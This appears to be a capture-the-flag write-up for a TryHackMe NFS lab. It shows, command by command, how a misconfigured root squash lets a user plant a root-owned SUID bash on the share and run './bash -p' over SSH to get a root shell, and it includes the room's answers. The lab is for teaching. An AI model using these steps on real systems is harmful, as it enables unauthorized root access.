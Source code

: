 - NFS Access ->
  - Gain Low Privilege Shell ->
    - Upload Bash Executable to the NFS share ->
      - Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
        - Login through SSH ->
          - Execute SUID Bit Bash Executable ->
            - ROOT ACCESS

Lets do this!

First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.

```
kali@kali:~/CTFs/tryhackme/Network Services 2$ cp bash /tmp/mount/cappucino/
```

`No answer needed`

Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

```
kali@kali:/tmp/mount/cappucino$ sudo chown root bash
```

`No answer needed`

Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?

```
kali@kali:/tmp/mount/cappucino$ sudo chmod +s bash
```

`s`

Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.

```
kali@kali:/tmp/mount/cappucino$ ls -la bash
-rwsr-sr-x 1 root kali 1113504 Nov 13 16:28 bash
```

`-rwsr-sr-x`

Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.

```
cappucino@polonfs:~$ ./bash -p
bash-4.4# whoami
root
bash-4.4#
```

`No answer needed`
